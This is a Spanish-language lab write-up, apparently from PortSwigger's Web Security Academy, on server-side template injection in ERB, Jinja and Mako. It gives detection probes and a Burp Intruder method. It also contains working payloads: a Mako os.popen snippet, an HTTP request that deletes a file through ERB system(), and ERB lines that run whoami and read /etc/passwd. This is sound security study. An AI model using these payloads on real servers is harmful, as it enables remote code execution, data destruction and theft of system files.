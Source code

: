 
# Server-side template injection (SSTI)

Las paginas html antes eran estaticas pero con la aparicion de frameworks como ruby on rails y librerias como reactjs. Las paginas de internet
se hicieron mas dinamicas.

> HTML tags provide static web pages only but ERB tags give us dynamic information in that HTML template.

## Template Example

```
<h1> Event Details for <%= event.name %> </h1> 
```

Un ejemplo es fb para todos los perfires renderiza los amigos de cada cuenta y existen 2 el client side rendering y server side rendering.

> A menos que ya conozca el motor de plantillas de adentro hacia afuera, leer su documentación suele ser el primer lugar para comenzar.
> Aprender la sintaxis básica es obviamente importante, junto con las funciones clave y el manejo de variables. Incluso algo tan simple como aprender a incrustar bloques de código nativo en la plantilla a veces puede conducir rápidamente a un exploit. Por ejemplo, una vez que sepa que se está utilizando el motor de plantillas Mako basado en Python, lograr la ejecución remota de código podría ser tan simple como:

***Palabra clave***: motores de plantillas comunes

```
<%
                import os
                x=os.popen('id').read()
                %>
                ${x}
                
```

# Tipos de motores de plantillas (aunque hay muchos esto solo es un ejemplo)

## ERB 

ERB es un motor de plantillas. Un motor de plantillas le permite mezclar HTML y Ruby para que pueda generar páginas web utilizando datos de su base de datos. ERB es el motor predeterminado de Rails para renderizar vistas. Nota: Rails usa una implementación llamada erubi en lugar de la clase ERB de la biblioteca estándar de Ruby.

Sintaxis example

```
<%= @user.name%>
```


## JINJA

Jinja2 is a modern day templating language for Python developers. It was made after Django's template. It is used to create HTML, XML or other markup formats that are returned to the user via an HTTP request.

Sintaxis example

```
{{user.hit_that_like}}

```

# SSTI metodologia

1. Busca reflexion de parametros ingresados por el usuario
2. enumera de que template engine se trata haciendo que el payload sea evaluado
3. explitalo rce o solo sacar informacion.

> https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

### Detect - Plaintext context( dentro de hacktricks) 

```

{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}

```

# Basic server-side template injection

Para este laboratorio primero nos damos cuenta que al probar un producto nos manda en una peticion GET que no hay stock
despues si en esa misma peticion ponemos algo cualquier cosa lo renderiza!


```
GET /?message=<%25%3d+system("rm+morale.txt")+%25> HTTP/1.1
Host: 0a9a000604434cc5c04469150063005a.web-security-academy.net
Cookie: session=9w4H3Kb9L9iMwIiijw2slP6Pt6LKHJQ0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a9a000604434cc5c04469150063005a.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close



```

Se manda la peticion al intruder y se selecciona donde estara el payload despues no dirijomos a la pestaña
Payloads -> Payloads Options y ahi pegamos las " Plaintext context" para probar a que tipo de template engine
nos enfrentamos. Tambien nos dirigimos a Options-> Reg Extract -> add y seleccionamos el div donde se refleja 
nuestro output en nuesta respuesta de la pericion GET. Inciamos el ataque y vemos que la sintaxis de ERB de ruby es
la que renderiza el 49 (7*7).

Finalmente podemos ejecutar comandos con:

```
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

```

Borrando el archivo ( recuerda usar URL encode)




























